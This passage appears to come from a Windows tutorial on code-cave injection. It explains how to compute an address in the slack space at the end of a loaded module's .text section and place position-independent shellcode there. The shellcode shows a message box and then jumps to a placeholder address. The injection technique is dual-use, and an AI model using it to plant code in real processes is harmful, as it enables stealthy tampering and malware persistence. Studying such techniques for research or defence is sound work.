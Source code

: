 ```c++

        fLink = pModule->InLoadOrderModuleList.Flink;
    } while (pModule->InLoadOrderModuleList.Flink != firstFLink);

    return 0;
}
```

Now we need a good place within the .text section to inject our code. Fortunately for us, the raw size of the .text section must be a multiple of the file alignment specified in the portable executable optional header. Unless the actual size of the code is divisible by the file alignment, there will probably be enough space at the end of the .text section to allow for injection of a small piece of code.

The code below can be used to acquire an absolute address that will place the injected code at the end of the import module’s .text section.

```c++
DWORD dwHandlerAddress = (DWORD)pImportImageBase +
      pImportTextHeader->VirtualAddress +
      pImportTextHeader->SizeOfRawData -
      dwHandlerSize;
```

To function properly, the code injected at the calculated address must be position-independent. In this proof of concept I will be using my windows messagebox shellcode with a couple modifications, namely a function prologue and epilogue along with a jump to `0xDEADBEEF`. The assembly (handler.asm in the sample project) is assembled using NASM and then converted into a hex escaped C string.

```c++
char* handler =
    "\x55\x31\xdb\xeb\x55\x64\x8b\x7b"
    "\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b"
    "\x47\x08\x8b\x77\x20\x8b\x3f\x80"
    "\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
    "\x78\x3c\x8b\x57\x78\x01\xc2\x8b"
    "\x7a\x20\x01\xc7\x89\xdd\x8b\x34"
    "\xaf\x01\xc6\x45\x8b\x4c\x24\x04"
    "\x39\x0e\x75\xf2\x8b\x4c\x24\x08"
    "\x39\x4e\x04\x75\xe9\x8b\x7a\x24"
    "\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a"
    "\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01"
    "\xf8\xc3\x68\x4c\x69\x62\x72\x68"
    "\x4c\x6f\x61\x64\xe8\x9c\xff\xff"
    "\xff\x31\xc9\x66\xb9\x33\x32\x51"
    "\x68\x75\x73\x65\x72\x54\xff\xd0"
    "\x50\x68\x72\x6f\x63\x41\x68\x47"
    "\x65\x74\x50\xe8\x7d\xff\xff\xff"
    "\x59\x59\x59\x68\xf0\x86\x17\x04"
    "\xc1\x2c\x24\x04\x68\x61\x67\x65"
    "\x42\x68\x4d\x65\x73\x73\x54\x51"
    "\xff\xd0\x53\x53\x53\x53\xff\xd0"
    "\xb9\x07\x00\x00\x00\x58\xe2\xfd"
    "\x5d\xb8\xef\xbe\xad\xde\xff\xe0";
```
